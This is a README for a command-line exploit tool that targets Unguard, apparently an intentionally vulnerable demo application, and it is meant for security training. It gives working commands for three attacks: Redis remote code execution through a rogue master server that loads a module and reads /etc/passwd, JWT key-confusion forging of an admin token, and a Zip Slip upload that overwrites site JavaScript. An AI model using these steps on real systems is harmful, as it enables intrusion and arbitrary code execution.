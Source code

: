 # Unguard Exploits CLI

Small command line application written in Python that automates different attack scenarios for the Unguard application.

## Installation

Create and activate the virtual environment for the `unguard-exploit` package

```
python -m venv venv
source ./venv/bin/activate
pip install -r requirements.txt
pip install --editable .
```

Check out what you can do now
 
```
ug-exploit --help
```

## General Usage

Make sure to login first

```
ug-exploit login <USERNAME>
```

Next, send your payloads. Make sure to specify the Redis instance that is reachable from the frontend.
Within Docker or K8S, this should be `unguard-redis:6379`.

```
ug-exploit redis --redis-host unguard-redis:6379 .\redis_payloads\hackedflag.txt
```

## Remote Code Execution (RCE)

For this exploit to work, you need to first start a Redis rogue server.

This exploit (for Redis 4.x and 5.x) was inspired by [Redis Post-Exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
The code was taken and adapted from [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server).

The rogue server acts as a fake Redis master host and can upload a shared library to a real Redis.

### Usage

#### Kubernetes Deployment

If you run Unguard inside Kubernetes it may be that your Redis instance can not access the local rogue server.
For that, build and run the following temporary container in your cluster.
Make sure to use the K8S Docker environment as explained in the root README.

```
docker build --tag redis-rogue-server .\redis_payloads\redis-rogue-server
kubectl run redis-rogue-server --rm -i --tty --expose --port 6666 \
    --image-pull-policy=IfNotPresent --image redis-rogue-server
```

It might be the case that you don't see proper console output.

#### Local Deployment

Build the `module.so` from the already linked git submodule from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

```
git submodule init
git submodule update

cd ./redis_payloads/redis-rogue-server/RedisModules-ExecuteCommand

make
```

Move back to `./redis_payloads/redis-rogue-server` and start the server to listen on all interfaces on port `6666`

```
cd redis-rogue-server
python redis-rogue-server.py --lhost 0.0.0.0 --lport 6666
```

Inside the `./redis_payloads/rce.txt` change the `SLAVEOF` command so that it points to the ip address and port of your rogue server.
Then, run the RCE exploit, which makes our rogue server a slave and injects the `module.so` to `/tmp/exp.so`

```
ug-exploit redis --redis-host unguard-redis:6379 .\redis_payloads\rce.txt
```

You should see some output on your rogue server on success, and the exploit should already have created the file `/tmp/maliciousfile`

The compromised Redis instance can now execute arbitrary code like so

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from Redis host
```

You don't need the rogue server anymore.

## JWT KeyConfusion Attack
For this exploit to work you need login via the login-command before.
Further details and a writeup about the vulnerability are available in the user-auth-service project.

### Usage
To forge a JWT token just provide the usertag which is a combination of username:userid.

!Attention! The username and userid have to match, otherwise the forged token will not have the right permissions.
```
$ ug-exploit forge-token admin:1
```

Now you can either use ug-exploit with the forged-user(logged in automatically) or use the forged token, which is printed to the command-line manually.

## Zip Slip
All you need for a Zip Slip attack is an archive with a file in it which makes path traversal through its name possible. In the folder zipslip_payloads already contains two of them.
Further details and a writeup about the vulnerability (and how to make such an archive) are available in under ```/exploit/writeups/zipslip```.

### Usage
For the exploit you need a user with the AD_MANAGER Role. Therefore, the user "admanager" will be created at unguard per default. Just log in as admanager:
```
vg-exploit login admanager  
```
Afterwards, you are permitted to use the ads-upload command for uploading arbitrary zip archives. With that you just have to upload the exploit-archive:
```
vg-exploit ads-upload --archive_path ./zipslip_payloads/exploit-ads.zip
```

The exploit-ads.zip archive will overwrite the two bird ads with two pigeons images and also overwrite a javascript file. The new js file will automatically will be called after an ad is loaded and with the pop up an alert after 2 seconds which states, that the server got infiltrated. Due to Browser caching a hard refresh of the page my be necessary to see the new images.

To revert the server back to the original version just upload the original-ads.zip:
```
vg-exploit ads-upload --archive_path ./zipslip_payloads/original-ads.zip
```


